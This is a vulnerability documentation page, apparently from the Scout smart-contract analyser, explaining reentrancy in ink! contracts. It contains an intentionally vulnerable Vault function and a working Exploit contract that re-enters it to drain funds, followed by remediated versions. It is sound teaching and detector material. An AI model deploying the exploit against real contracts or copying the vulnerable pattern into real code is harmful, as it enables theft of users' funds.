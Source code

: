 # Reentrancy
## Description
* Vulnerability Category: `Reentrancy`
* Severity: `Critical`
* Detectors: [`reentrancy`](https://github.com/CoinFabrik/scout/tree/main/detectors/reentrancy)
* Test Cases: [`reentrancy-1`](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-1), [`reentrancy-2`](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-2) 

Smart contracts can call other contracts and send tokens to them. These 
operations imply external calls where control flow is passed to the called
contract until the execution of the called code is over. Then the control 
is delivered back to the caller.

External calls, therefore, could open the opportunity for a malicious contract
to execute any arbitrary code. This includes calling back the caller contract,
an attack known as reentrancy. This kind of attack was used in Ethereum for 
the infamous [DAO Hack](https://blog.chain.link/reentrancy-attacks-and-the-dao-hack/).

## Exploit Scenario
In order to exemplify this vulnerability we developed two contracts: 
a `Vault` contract and an `Exploit` contract.

The `Vault` contract provides functions to deposit, withdraw, check balance, 
and call a function on another contract with a specified value.

```rust
#[ink(message)]
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .call_flags(
                ink::env::CallFlags::default()
                    .set_allow_reentry(true)
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        self.balances.insert(caller_addr, &(caller_balance - amount));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

Th function `call_with_value function()` allows the contract owner to call 
other contracts on the blockchain and transfer a specified amount of value in
the process. The function takes three arguments:
- *address*: The address of the contract to call.
- *amount*: The amount of balance to transfer in the call.
- *selector*: The 32-bit function selector of the function to call on the contract.

The function first checks the balance of the caller to make sure that they have
enough funds to perform the transfer. If the balance is sufficient, a new call
is constructed using the `build_call()` function provided by the 
`env::call module`.

The `build_call()` function constructs a new contract call with the specified
arguments. In this case, the call method is used to specify the address of the 
contract to call, the transferred_value method is used to specify the amount 
of balance to transfer, and the exec_input method is used to specify the 
function selector and any arguments to pass to the called function.

The `call_flags()` method is also used to set a flag that allows the called
contract to re-enter the current contract if necessary. This possibility to
re-enter the contract, together with an appropriate 32-bit function selector 
will allow us to repeatedly withdraw balance from the contract, emptying the 
Vault.

In order to perform this attack, we will use the `exploit()` function of the
`Exploit` contract that we outline below:

```rust
#[ink(message, payable, selector = 0x0)]
pub fn exploit(&mut self) {
    ink::env::debug_println!("Exploit  function called from {:?} gas left {:?}",self.env().caller(), self.env().gas_left());
    if self.env().gas_left() > self.gas_to_stop{
        let call = build_call::<ink::env::DefaultEnvironment>()
        .call(self.contract)
        .transferred_value(0)
        .exec_input(
            ink::env::call::ExecutionInput::new(Selector::new([0x76_u8,0x75_u8,0x7E_u8,0xD3_u8]))
                .push_arg(self.env().account_id())
                .push_arg(self.amount)
                .push_arg(0)
        )
        .call_flags(
            ink::env::CallFlags::default()
                .set_allow_reentry(true)
        )
        .returns::<Balance>()
        .params();
        ink::env::debug_println!("Call generated gas left:{:?}",self.env().gas_left());
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        ink::env::debug_println!("Call finished");
    }
}

```

The vulnerable code example can be found [here](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-1/vulnerable-example).

### Deployment
Vault and Exploit files can be found under the directories 
[vulnerable-example/exploit](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-1/vulnerable-example/exploit) and 
[vulnerable-example/vault](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-1/vulnerable-example/vault). 
The whole exploit example can be run automatically using the `deploy.sh` file.

## Recommendation
In general, risks associated to reentrancy can be addressed with the 
Check-Effect-Interaction pattern, a best practice that indicates that external 
calls should be the last thing to be executed in a function. In this example, 
this can be done by inserting the balance before transferring the value (see 
[remediated-example-1](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-1/remediated-example)).


```rust
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        self.balances.insert(caller_addr, &(caller_balance - amount));
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .call_flags(
                ink::env::CallFlags::default()
                    .set_allow_reentry(true)
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

The remediated code example can be found [here](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-1/remediated-example).

Alternatively, if reentrancy by an external contract is not needed, the 
`set_allow_reentry(true)` should be removed altogether (see 
[remediated-example-2](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-2/remediated-example)). This is equivalent in Substrate to using a 
[reentrancy guard](https://github.com/Supercolony-net/openbrush-contracts/tree/main/contracts/src/security/reentrancy_guard) 
like the one offered by [OpenBrush](https://github.com/Supercolony-net/openbrush-contracts).

```rust
#[ink(message)]
pub fn call_with_value(&mut self, address: AccountId, amount: Balance, selector: u32) -> Balance {
    ink::env::debug_println!("call_with_value function called from {:?}",self.env().caller());
    let caller_addr = self.env().caller();
    let caller_balance = self.balances.get(caller_addr).unwrap_or(0);
    if amount <= caller_balance {
        let call = build_call::<ink::env::DefaultEnvironment>()
            .call(address)
            .transferred_value(amount)
            .exec_input(
                ink::env::call::ExecutionInput::new(Selector::new(selector.to_be_bytes()))
            )
            .returns::<()>()
            .params();
        self.env().invoke_contract(&call)
            .unwrap_or_else(|err| panic!("Err {:?}",err))
            .unwrap_or_else(|err| panic!("LangErr {:?}",err));
        self.balances.insert(caller_addr, &(caller_balance - amount));

        return caller_balance - amount;
    } else {
        return caller_balance
    }
}
```

The remediated code example can be found [here](https://github.com/CoinFabrik/scout/tree/main/test-cases/reentrancy/reentrancy-2/remediated-example).

## References
* https://use.ink/datastructures/storage-layout
* https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/
* https://dasp.co/#item-1
* https://blog.sigmaprime.io/solidity-security.html#SP-1
* https://docs.soliditylang.org/en/develop/security-considerations.html#re-entrancy
* [Ethernaut: Reentrancy](https://stermi.medium.com/the-ethernaut-challenge-9-solution-re-entrancy-635303881a4f)
* [SWC-107](https://swcregistry.io/docs/SWC-107)
* [Slither: Reentrancy vulnerabilities (theft of ethers)](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities)
* [Slither: Reentrancy vulnerabilities (no theft of ethers)](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-1)
* [Slither: Benign reentrancy vulnerabilities](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-2)
* [Slither: Reentrancy vulnerabilities leading to out-of-order Events](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-3)
* [Slither: Reentrancy vulnerabilities through send and transfer](https://github.com/crytic/slither/wiki/Detector-Documentation#reentrancy-vulnerabilities-4)
